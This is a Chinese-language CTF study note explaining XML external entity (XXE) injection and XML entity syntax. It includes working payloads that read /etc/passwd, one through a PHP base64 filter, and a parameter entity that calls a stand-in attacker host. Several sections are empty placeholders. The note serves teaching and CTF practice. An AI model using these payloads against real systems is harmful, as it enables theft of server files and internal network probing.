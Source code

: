 # XML外部实体注入

XML 外部实体注入（XXE）是一种发生在应用程序解析 XML 输入时的安全漏洞。当 XML 解析器配置不当，处理包含对外部实体引用的 XML 输入时，可能导致敏感信息泄露、拒绝服务、服务器端请求伪造、端口扫描等多种攻击。

![https://cdn.acunetix.com/wp-content/uploads/2017/07/11110336/image1.png](https://cdn.acunetix.com/wp-content/uploads/2017/07/11110336/image1.png)

- 读取本地文件
- 内网主机探测
- 内网主机端口扫描
带内实体注入攻击
- XML 解析后，有结果回显
- 基于错误
带外实体注入攻击

## XML语法

XML（E**x**tensible **M**arkup **L**anguage，可扩展标记语言）是一种用于表示结构化数据的标记语言。一个有效的 XML 文档通常包含以下几个基本部分：

- **XML 声明（declaration）**：可选，通常放在文档的第一行，声明版本和编码方式。
  - `<?xml version="1.0" encoding="UTF-8"?>`
- **文档类型定义（Document Type Definition，DTD）**：可选，预定义 XML 文件中的元素、属性及其关系，类似于模板。
- **根元素**：XML 文档必须**有且只有一个根元素**，所有其他元素都包含在这个根元素内。
  - 元素标签，所有的元素由起始标签和结束标签组成。起始标签格式为 `<tagname>`，结束标签格式为 `</tagname>`。标签名称区分大小写。
  - 自闭合元素，没有结束标签，使用自闭合标签，`<example />`。
  - 属性，元素具有属性，用于提供更多信息。属性在起始标签中定义，格式为 `name="value"`。

### 实体

实体（Entity）用于表示在文档中重用的信息，实体类型有：
  
- 内部实体，在文档内部定义。

```xml
<!DOCTYPE example [
    <!ENTITY greeting "Hello, World!">
]>
<example>
    <message>&greeting;</message>
</example>
```

- 外部实体
  - 从外部文件或 URL 引入。
  - 声明方式：`<!ENTITY 实体名称 SYSTEM "URI/URL">`。
  - 引用方式：`&实体名称;`。

```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
```

另一种引用方式

`<!DOCTYPE 根元素名称 PUBLIC "DTD标识名" "公用DTD的URI">`

- 参数实体
  - 参数实体通常用于 DTD 中，以在 DTD 结构内重用文本。在 DTD 中定义，只能在 DTD 中引用。
  - 声明方式：`<!ENTITY % 实体名称 "实体的值">`
  - 引用方式：`%实体名称;`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY % myparameterentity "my parameter entity value" >
<!ENTITY % xxe SYSTEM "http://web-attacker.com"> 
%myparameterentity;%xxe; ]>
```

> 通常在Blind XXE中使用

## XXE漏洞利用

### 读文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

例题：BUU XXE COURSE 1

### 内网主机探测

[NCTF2019]True XML cookbook

### 绕过方法

- 修改编码

<!--
TODO:
docx文档的XXE，https://xz.aliyun.com/t/11203

-->

## blind XXE

### out-of-band

### Error-based XXE

<!-- 在 libxml 2.9.0 版本之后，默认禁用了外部实体解析，这在很大程度上缓解了 XXE 漏洞。 -->
<!-- https://github.com/peri0d/BUUOJwp/blob/main/xxe/bsidescf-2019-svgmagic.md -->
## 参考资料

- <https://tttang.com/archive/1716/>
- <https://swarm.ptsecurity.com/impossible-xxe-in-php/>
